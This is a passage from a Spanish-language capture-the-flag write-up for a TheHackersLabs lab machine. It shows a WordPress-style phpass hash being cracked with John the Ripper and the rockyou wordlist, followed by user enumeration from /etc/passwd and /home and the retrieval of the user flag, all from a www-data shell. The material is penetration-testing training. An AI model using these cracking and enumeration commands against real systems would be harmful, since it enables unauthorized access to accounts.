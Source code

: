 Podemos copiar ese hash, guardarlo en nuestra máquina y crackearlo con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash --format=phpass
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
asdfghjkl        (?)     
1g 0:00:00:00 DONE (2025-08-21 15:08) 14.28g/s 8228p/s 8228c/s 8228C/s adidas..parola
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```
Excelente, pudimos crackear su contraseña.

**OJO**: Este crackeo no siempre funciona, así que ve preparado por si no logras crackear la contraseña.

<br>

<h2 id="lineEnum">Enumeración de la Máquina Víctima y Abusando de Permisos Sudoers sobre Binario php</h2>

Veamos qué usuarios existen en la máquina:
```bash
www-data@TheHackersLabs-facultad:/$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
gabri:x:1001:1001::/home/gabri:/bin/sh
vivian:x:1002:1002::/home/vivian:/bin/sh
```

Podemos encontrar sus directorios en el directorio `/home`:
```bash
www-data@TheHackersLabs-facultad:/$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jan 27  2025 .
drwxr-xr-x 18 root   root   4096 Oct 16  2024 ..
drwx------  2 debian debian 4096 Oct 16  2024 debian
drwxr-xr-x  3 vivian vivian 4096 Aug 21 23:07 vivian
```
Falta el directorio del **usuario gabri**, pero podemos entrar y ver el contenido del directorio de **vivian**.

Ahí encontraremos la flag del usuario:
```bash
www-data@TheHackersLabs-facultad:/$ ls -la /home/vivian/
total 16
drwxr-xr-x 3 vivian vivian 4096 Aug 21 23:07 .
drwxr-xr-x 4 root   root   4096 Jan 27  2025 ..
drwxr-xr-x 3 vivian vivian 4096 Aug 21 23:07 .local
-rw-r--r-- 1 root   root     23 Jan 27  2025 user.txt
www-data@TheHackersLabs-facultad:/$ cat /home/vivian/user.txt
...
```
